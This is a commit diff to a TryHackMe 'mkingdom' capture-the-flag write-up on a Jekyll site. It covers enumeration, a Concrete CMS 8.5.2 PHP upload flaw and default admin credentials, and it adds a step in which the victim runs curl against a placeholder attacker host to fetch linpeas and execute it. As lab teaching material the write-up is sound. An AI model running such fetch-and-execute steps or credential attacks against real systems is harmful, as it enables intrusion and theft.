

Before and after one commit to a-9-k/WriteUps, a Jekyll site: the page built from index.markdown, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown.

Commit message:
Updating posts

````diff
--- a/_posts/2024-05-07-mkingdom.md
+++ b/_posts/2024-05-07-mkingdom.md
@@ -1,7 +1,7 @@
 ---
 layout: post
 title:  "TryHackMe: mkingdom"
-description: Learn how to exploit a Joomla CMS using CVE-2023-23752 and understand various mitigation techniques.
+description: Beginner-friendly box inspired by a certain mustache man.
 date:   2024-07-08 11:43:59 +0100
 categories: jekyll update
 ---
@@ -11,6 +11,9 @@ categories: jekyll update
 export IP= M-ip
 ```
 # Enumeration:
+
+I found the Port 85 referring to HTTP instead of 80.
+
 ```sh
 Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-20 18:42 EDT
 Scanning 10.10.198.213 [4 ports]
@@ -35,8 +38,6 @@ Service detection performed. Please report any incorrect results at https://nmap
 Nmap done: 1 IP address (1 host up) scanned in 12.78 seconds
            Raw packets sent: 1037 (45.604KB) | Rcvd: 1008 (40.312KB)
 ```
-
-I found the Port 85 referring to HTTP instead of 80.
 
 # Directory bruteforcing:
 
@@ -63,7 +64,7 @@ I tried some default passwords on this user 'admin' the password is 'password'
 
 ![Screenshot_9](https://github.com/user-attachments/assets/8bc6a101-ba04-4266-802f-d4ee6a561831)
 
-as i manched before the concrete cms 8.5.2 has a vuln thats make me add an extention to allow file type to be downloaded to the machine.
+as i mentioned before the concrete cms 8.5.2 has a vuln thats make me add an extension to allow php file type to be downloaded to the machine.
 
 ![Screenshot_4](https://github.com/user-attachments/assets/97b5b439-0527-4a2c-84a9-bc248cb2f7ff)
 ![Screenshot_5](https://github.com/user-attachments/assets/0e70e322-77f6-4f0b-a804-66bfa7bf1c61)
@@ -85,3 +86,15 @@ Linux mkingdom.thm 4.4.0-148-generic #174~14.04.1-Ubuntu SMP Thu May 9 08:17:37
 USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
 uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
 ```
+I used linpeas to enumerate the machine
+
+```sh
+Attacker Machine
+python3 -m http.server 80
+Victim Machine
+curl http://attackerIP/linpeas.sh -o linpeas.sh
+./linpeas.sh
+```
+I found password of the user toad in config file of the application concrete cms 8.5.2
+
+![Screenshot_11](https://github.com/user-attachments/assets/0720af85-e3b0-4c3b-9f2e-d7058ef7685d)
````
